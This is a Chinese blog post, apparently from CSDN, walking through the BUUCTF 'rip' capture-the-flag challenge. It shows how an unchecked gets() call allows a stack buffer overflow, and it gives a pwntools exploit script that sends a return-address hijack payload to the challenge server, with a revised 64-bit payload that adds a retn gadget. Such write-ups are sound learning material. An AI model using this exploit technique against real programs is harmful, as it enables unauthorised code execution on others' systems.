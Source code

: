 <!--yml
category: 未分类
date: 2022-04-26 14:49:40
-->

# BUUCTF (PWN) RIP详细分析_qy201706的博客-CSDN博客_buuctf rip

> 来源：[https://blog.csdn.net/qy201706/article/details/105397766](https://blog.csdn.net/qy201706/article/details/105397766)

## 很简单的栈溢出，不过对于栈溢出具体过程不理解的会卡的很惨

## 0x1 解题过程

> 由于初学嘛，就看了网上的wp，好像都是之前版本的，现在用就不太对，可能我入坑BUUCTF比较晚，现在用的题都是运行在Ubuntu18上的，故需要考虑堆栈平衡~~

> IDA打开发现main下面还有一个fun()函数，很可疑
> ![IDA打开发现main下面还有一个fun()函数，很可疑](img/f2d97aad0217e1ccbc50a47e81b249f8.png)

> 别一味地F5，这个汇编很容易看明白，这个gets很明显没有限制输入，存在栈溢出漏洞
> ![在这里插入图片描述](img/78e565e488f62632a6c3c4683cb51ec7.png)

> 双击s来到Stack of main视图，发现只需存入15个字节即可劫持函数返回地址
> ![在这里插入图片描述](img/18267dd1250ba7735726e9ceccae1c49.png)

> 因此再回来看fun()函数，就是一个系统调用，故payload=‘a’ * 15 + p64(0x401186)
> ![在这里插入图片描述](img/ae259db32326526d16d42e71a2277aa6.png)

## 0x2:exp

```
 from pwn import *

p = remote('node3.buuoj.cn', 26692)

buf_1 = 'a' * 15 + p64(0x401186)

p.sendline(buf_1)

p.interactive() 
```

## 0x03反思：

> 看了网上那些wp，其实就是老版本的这道题是32位的，而现在是64位的，参数小于6个不会用到栈来传参。而gets（）只有一个参数，所以传递参数只需用到rdi（这你可以看ida的汇编代码，call下面有个mov rdi，rax），这道题的s应该是一个局部变量，23个刚刚覆盖了rbp，然后那两个地址紧接着往下排，0x401198是 “retn” 保证程序能正常返回，然后0x401186在Main函数栈顶。又因为retn相当于pop + 执行，故形成了返回地址劫持～～
> 解决办法：payload=‘a’ * 23+ p64(0x401198) + p64(0x401186) #0x401198为返回地址
> ![在这里插入图片描述](img/18c7b6aa0b8803ee170fa437648a43c7.png)

> 大神帮忙看看我这个反思是否正确，望指点~